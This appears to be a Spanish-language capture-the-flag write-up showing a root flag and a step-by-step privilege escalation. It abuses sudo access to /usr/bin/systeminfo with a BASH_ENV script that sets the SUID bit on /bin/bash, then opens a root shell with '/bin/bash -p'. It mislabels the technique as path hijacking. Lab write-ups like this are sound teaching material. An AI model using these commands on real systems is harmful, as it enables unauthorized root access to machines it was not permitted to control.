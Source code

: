 ``` bash
bash-5.2# cd root
bash-5.2# ls
root.txt  scripts
bash-5.2# cat root.txt
5bb677d4147fc7840c2d52a21ec4b3e5
bash-5.2# 

```

Aquí tienes un resumen paso a paso de cómo llegamos al root en este ejercicio:

### 1. **Identificar los comandos sudo disponibles**

Ejecutamos el comando `sudo -l` para ver qué comandos podemos ejecutar con privilegios elevados:

```bash
hish@environment:~$ sudo -l
```

El resultado muestra que podemos ejecutar el siguiente comando como root:

```bash
(ALL) /usr/bin/systeminfo
```

### 2. **Realizar un Path Hijacking**

Dado que `systeminfo` se puede ejecutar como root, intentamos manipular la variable de entorno `BASH_ENV` para que se ejecute un script con privilegios elevados. Creamos un script que cambia el bit SUID de `/bin/bash` para obtener acceso root:

```bash
echo -e '#!/bin/bash\nchmod +s /bin/bash' > root.sh
```

Este script cambiará el bit SUID de `/bin/bash`, lo que permitirá que se ejecute como root en cualquier contexto.

### 3. **Ejecutar el script usando `sudo`**

Luego, ejecutamos el comando `systeminfo` de la siguiente manera, utilizando la variable de entorno `BASH_ENV` para ejecutar el script `root.sh`:

```bash
sudo BASH_ENV=root.sh /usr/bin/systeminfo
```

Este comando ejecuta el script con privilegios elevados, que establece el bit SUID en `/bin/bash`.

### 4. **Obtener acceso a una shell root**

Ahora que hemos manipulado el bit SUID, podemos obtener acceso como root ejecutando `/bin/bash -p`, lo que nos da una shell de root sin la necesidad de ingresar una contraseña:

```bash
/bin/bash -p
```
